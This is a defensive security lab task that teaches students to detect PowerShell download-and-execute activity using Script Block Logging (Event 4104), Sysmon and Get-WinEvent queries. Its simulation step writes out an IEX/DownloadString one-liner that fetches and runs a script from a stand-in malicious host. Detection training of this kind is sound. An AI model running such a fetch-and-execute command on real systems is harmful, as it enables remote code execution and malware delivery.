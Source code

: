 # **Task #13: Investigate PowerShell Command Execution Logs**

## **Objective**  
The objective of this task is to help students analyze **PowerShell execution logs** to detect potential malicious activity. By completing this task, students will learn how to capture **PowerShell command execution events**, detect suspicious script execution, and analyze logs using **Windows Event Viewer and PowerShell**.

---

## **Lab Setup**  
### **Requirements**  
- **System:** Windows 10/11 or Windows Server 2019/2022  
- **Tools Required:**  
  - **PowerShell** (Pre-installed on Windows)  
  - **Windows Event Viewer**  
  - **Sysmon (System Monitor) from Sysinternals**  

---

## **Preparation**  
### **Step 1: Enable PowerShell Logging**  
To ensure PowerShell activity is being logged, enable **Script Block Logging**:  

1. Open **PowerShell (Run as Administrator)** and run:  
   ```powershell
   Set-ExecutionPolicy RemoteSigned -Scope LocalMachine -Force
   ```
2. Enable logging for PowerShell script blocks:
```
New-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\PowerShell\1\ShellIds\Microsoft.PowerShell" -Name ScriptBlockLogging -Value 1 -PropertyType DWord
```

## Attack Simulation & Detection
We will now simulate the execution of a suspicious PowerShell command, detect it using Event Viewer, and analyze logs with Sysmon.

### Step 1: Simulate a Suspicious PowerShell Command Execution
1. Open PowerShell (Run as Administrator).
2. Run the following potentially malicious command:
```
IEX (New-Object Net.WebClient).DownloadString("http://malicious-site.com/malware.ps1")
```
- This command attempts to download and execute a remote PowerShell script, a common technique used by attackers.
- If running in a safe lab environment, replace the URL with a harmless text file.

### Step 2: Detect PowerShell Command Execution in Windows Event Viewer
1. Open Event Viewer (Win + R, type eventvwr.msc, press Enter).
2. Navigate to:
```
Applications and Services Logs → Microsoft → Windows → PowerShell → Operational
```
3. Click Filter Current Log and enter Event ID 4104 (Script Block Logging).
4. Look for:
- Executed Command: IEX (New-Object Net.WebClient)...
- Source Process: powershell.exe
- User Account: The account that executed the script

### Step 3: Detect PowerShell Command Execution Using Sysmon Logs
1. Open Event Viewer and navigate to:
```
Applications and Services Logs → Microsoft → Windows → Sysmon → Operational
```
2. Click Filter Current Log and enter Event ID 1 (Process Creation).
3. Look for:
- Process Name: `powershell.exe`
- Command Line Arguments: The executed PowerShell command
- Network Connections (if applicable)

### Step 4: Retrieve PowerShell Execution Logs Using PowerShell
Instead of using Event Viewer, use PowerShell to extract logs:

**Check for PowerShell Script Block Logging (Event ID 4104)**
```
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" | Where-Object {$_.Id -eq 4104} | Select-Object TimeCreated, Message | Format-Table -AutoSize
```
- This retrieves all PowerShell script block execution logs.

**Check for PowerShell Process Execution via Sysmon (Event ID 1)**
```
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" | Where-Object {$_.Id -eq 1 -and $_.Message -like "*powershell.exe*"} | Select-Object TimeCreated, Message | Format-Table -AutoSize
```
- This extracts all PowerShell-related process execution logs.

### Step 5: Investigate Potential Remote Code Execution (RCE)
To detect suspicious PowerShell activity related to remote script execution, use:

```
Get-WinEvent -LogName "Microsoft-Windows-PowerShell/Operational" | Where-Object {$_.Message -like "*IEX*" -or $_.Message -like "*DownloadString*"} | Select-Object TimeCreated, Message | Format-Table -AutoSize
```
- If results appear, it suggests a PowerShell command attempted to fetch and execute remote scripts.

## Conclusion
✅ Successfully simulated a suspicious PowerShell command execution.
✅ Detected and analyzed PowerShell script execution logs using Event Viewer and Sysmon.
✅ Identified remote code execution attempts, a common technique used by malware and attackers.
✅ Learned how SOC analysts track PowerShell-based attacks and prevent execution of malicious scripts.

## Submission
Share a screenshot of Sysmon or PowerShell logs showing script execution (Event ID 4104 or Event ID 1).
Write a short observation on how PowerShell logging helps in detecting fileless malware attacks.
